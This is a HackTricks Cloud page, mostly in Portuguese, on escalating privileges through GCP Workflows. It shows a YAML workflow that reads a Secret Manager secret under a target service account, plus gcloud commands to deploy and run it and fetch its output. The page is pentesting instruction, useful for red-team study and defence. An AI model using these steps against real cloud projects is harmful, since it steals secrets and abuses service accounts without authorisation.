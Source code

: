 # GCP - Workflows Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Workflows

Informações Básicas:

{% content-ref url="../gcp-services/gcp-workflows-enum.md" %}
[gcp-workflows-enum.md](../gcp-services/gcp-workflows-enum.md)
{% endcontent-ref %}

### `workflows.workflows.create`, `iam.serviceAccounts.ActAs`, `workflows.executions.create`, (`workflows.workflows.get`, `workflows.operations.get`)

Até onde sei, não é possível obter um shell com acesso ao endpoint de metadados contendo as credenciais da SA atacada a um Workflow. No entanto, é possível abusar das permissões da SA adicionando as ações a serem executadas dentro do Workflow.

É possível encontrar a documentação dos conectores. Por exemplo, esta é a [**página do conector Secretmanager**](https://cloud.google.com/workflows/docs/reference/googleapis/secretmanager/Overview)**.** Na barra lateral, é possível encontrar vários outros conectores.

E aqui você pode encontrar um exemplo de um conector que imprime um segredo:
```yaml
main:
params: [input]
steps:
- access_string_secret:
call: googleapis.secretmanager.v1.projects.secrets.versions.accessString
args:
secret_id: secret_name
version: 1
project_id: project-id
result: str_secret
- returnOutput:
return: '${str_secret}'
```
Atualização a partir da CLI:
```bash
gcloud workflows deploy <workflow-name> \
--service-account=email@SA \
--source=/path/to/config.yaml \
--location us-central1
```
Se você não tiver acesso à web, é possível acionar e ver a execução de um Workflow com:

{% code overflow="wrap" %}
```bash
# Run execution with output
gcloud workflows run <workflow-name> --location us-central1

# Run execution without output
gcloud workflows execute <workflow-name> --location us-central1

# List executions
gcloud workflows executions list <workflow-name>

# Get execution info and output
gcloud workflows executions describe projects/<proj-number>/locations/<location>/workflows/<workflow-name>/executions/<execution-id>
```
{% endcode %}

{% hint style="danger" %}
Você também pode verificar a saída de execuções anteriores para procurar informações sensíveis
{% endhint %}

Note que mesmo se você receber um erro como `PERMISSION_DENIED: Permission 'workflows.operations.get' denied on...` porque você não tem essa permissão, o workflow foi gerado.

### `workflows.workflows.update` ...

Com essa permissão em vez de `workflows.workflows.create`, é possível atualizar um workflow já existente e realizar os mesmos ataques.

{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="../../../.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image.png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe truques de hacking enviando PRs para os repositórios do** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}
